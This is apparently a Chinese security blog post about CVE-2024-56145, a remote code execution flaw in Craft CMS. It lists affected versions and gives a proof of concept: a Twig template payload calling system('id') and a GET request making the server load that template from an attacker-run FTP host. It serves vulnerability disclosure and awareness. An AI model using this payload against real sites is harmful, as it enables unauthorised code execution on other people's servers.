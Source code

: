 #  CVE-2024-56145｜Craft CMS远程代码执行漏洞（POC）   
alicy  信安百科   2024-12-28 09:56  
  
**0x00 前言**  
  
## Craft CMS是一个开源的内容管理系统，它专注于用户友好的内容创建过程，可以用来创建个人或企业网站也可以搭建企业级电子商务系统。  
##   
## Craft界面简洁优雅，逻辑清晰明了，是一个高度自由，高度自定义设计的平台。虽然不需要专业的编程知识，要对模板语法有所了解才能很好的使用。  
##   
  
  
**0x01 漏洞描述**  
  
  
如果受影响版本的Craft CMS用户的php.ini配置文件中启用了"register_argc_argv"，**未授权攻击者可以利用漏洞执行任意代码。**  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2024-56145  
  
  
  
**0x03 影响版本**  
  
```
5.0.0-RC1 ≤ Craft CMS < 5.5.2
4.0.0-RC1 ≤ Craft CMS < 4.13.2
3.0.0 ≤ Craft CMS < 3.9.14
```  
  
  
  
**0x04 漏洞详情**  
  
  
利用条件：  
  
1. 创建  
允许匿名访问的FTP服务器  
，写入default/index.twig使网站可以访问  
  
  
2. index.twig文件内容是：  
{{ [  
'system'  
,   
'id'  
] |   
sort  
(  
'call_user_func'  
) }}  
  
  
3. php.ini配置启用了“register_argc_argv”  
  
```
GET /?--templatesPath=ftp://a:a@xx.xx.xx:2121/ HTTP/1.1
Host: localhost:8000
...
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 19 Nov 2024 00:10:50 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Vary: Accept-Encoding
X-Powered-By: Craft CMS
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Referrer-Policy: no-referrer-when-downgrade
Content-Length: 15

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6urv7A3NK92iafROqjwQfOPK7ic6P8zjRGBDdBr8EMJKUJfTKIeiabgjxQXl9d3BDwWCthicC9JJnKM9RQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
**0x05 参考链接**  
  
  
https://github.com/Chocapikk/CVE-2024-56145  
  
  
https://github.com/craftcms/cms/security/advisories/GHSA-2p6p-9rc9-62j9  
  
  
  
  
推荐阅读：  
  
  
[CVE-2023-41892｜Craft CMS远程代码执行漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247484581&idx=1&sn=6af6555cca6906a1dcacfe12c906da79&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-11477｜7-Zip代码执行漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485713&idx=2&sn=6b514f8a63ef9950e23b2b6671d555c2&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-37383｜Roundcube Webmail存储型XSS漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485685&idx=1&sn=838e54bc45cab050c38c37137d553fa1&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  
